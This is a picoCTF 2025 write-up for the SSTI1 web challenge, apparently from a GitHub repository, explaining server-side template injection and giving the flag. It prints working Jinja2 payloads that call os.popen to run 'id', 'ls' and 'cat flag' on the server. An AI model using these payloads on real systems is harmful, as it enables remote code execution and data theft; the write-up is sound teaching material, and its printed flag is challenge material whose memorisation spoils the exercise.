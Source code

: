 # SSTI1 - picoCTF 2025

## 📂 Category
- Web Exploitation  
- Difficulty: Easy  

---

## 🧩 Challenge Description
The challenge provided a simple web form that reflected user input. 

---

## 🔍 Initial Observations
- Entering expressions like `{{7*7}}` returned `49`, indicating possible Server-Side Template Injection (SSTI).
---

## 🧪 Exploitation Steps

1. Entered: {{7*7}} → Response was `49` → Confirmed SSTI.
2. Tried: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
3. Got a system-level response confirming Remote Code Execution (RCE).
4. Ran: {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
5. Server files listed.
6. Finally: {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
7. Revealed the flag.

---

## 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

---

## 🧠 What I Learned

What is a Template Engine?
A template engine helps generate dynamic web pages. Instead of hardcoding values, you write placeholders like:
```<p>Hello, {{ name }}!</p>```

The server fills in the actual data.

What is SSTI?
Server-Side Template Injection occurs when user input is unsafely inserted into a template. If an input like {{7*7}} returns 49 (7 times 7 = 49), the server is evaluating user input as code. Running 7*7 is just the standard convention, but you can run any expression, mathematical or not.

If unpatched, SSTI can lead to:
- Data leaks
- Remote code execution (RCE)
- Full server compromise

---

📚 References
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

